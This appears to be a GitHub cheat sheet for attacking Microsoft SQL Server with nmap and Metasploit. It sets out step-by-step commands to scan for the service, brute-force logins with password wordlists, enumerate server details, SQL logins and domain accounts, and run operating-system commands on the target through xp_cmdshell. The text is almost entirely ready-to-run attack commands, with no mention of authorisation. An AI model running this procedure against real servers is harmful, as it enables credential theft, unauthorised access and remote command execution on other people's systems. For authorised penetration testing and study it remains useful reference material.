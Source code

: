 
### 🛠️ MSSQL Enumeration & Exploitation via Metasploit

After identifying MSSQL service running on the target (commonly on port **1433**), perform the following steps:

---

### 🔍 Step 1: Scan for MSSQL Service

```bash
nmap <ip>
nmap <ip> -p 1433 -sV --script ms-sql-info
```

* Checks if MSSQL service is running and retrieves version information.

---

### 📥 Step 2: Launch Metasploit Framework

```bash
msfconsole
```

---

### 🧪 Step 3: MSSQL Login Bruteforce

```bash
use auxiliary/scanner/mssql/mssql_login
setg RHOSTS <ip>                   # Target IP
set USER_FILE <path/to/usernames.txt>   # Example: /usr/share/wordlists/usernames.txt
set PASS_FILE <path/to/passwords.txt>   # Example: /usr/share/wordlists/passwords.txt
set VERBOSE false
run
```

* Attempts to brute-force MSSQL credentials.

---

### 🧾 Step 4: Enumerate MSSQL Server

```bash
use auxiliary/scanner/mssql/mssql_enum
set RHOSTS <ip>
run
```

* Enumerates general MSSQL server information (hostname, version, etc.).

---

### 👥 Step 5: Enumerate SQL Logins

```bash
use auxiliary/scanner/mssql/mssql_enum_sql_logins
set RHOSTS <ip>
run
```

* Lists all SQL server logins if credentials are found or login is successful.

---

### ⚙️ Step 6: Execute SQL Commands

```bash
use auxiliary/admin/mssql/mssql_exec
set RHOSTS <ip>
set USERNAME <valid_username>
set PASSWORD <valid_password>
set CMD "whoami"     # Example command
run
```

* Executes system commands on the target MSSQL server (via `xp_cmdshell`).

---

### 🏛️ Step 7: Enumerate Domain Accounts

```bash
use auxiliary/scanner/mssql/mssql_enum_domain_accounts
set RHOSTS <ip>
run
```

* Attempts to enumerate domain accounts from the SQL server.

---

### ✅ Summary of Required Paths

| **Wordlist Type** | **Example Path**                     |
| ----------------- | ------------------------------------ |
| Username file     | `/usr/share/wordlists/usernames.txt` |
| Password file     | `/usr/share/wordlists/rockyou.txt`   |

---

### 🧠 Notes

* Ensure `xp_cmdshell` is enabled if you want to execute OS-level commands. Some commands may fail if it's disabled.
* Use `setg` only when you want to make variables global across modules.
* Some MSSQL services may require **Windows Authentication** instead of SQL authentication — Metasploit modules might not work in those cases.
* Always run `options` to verify required settings before `run`.
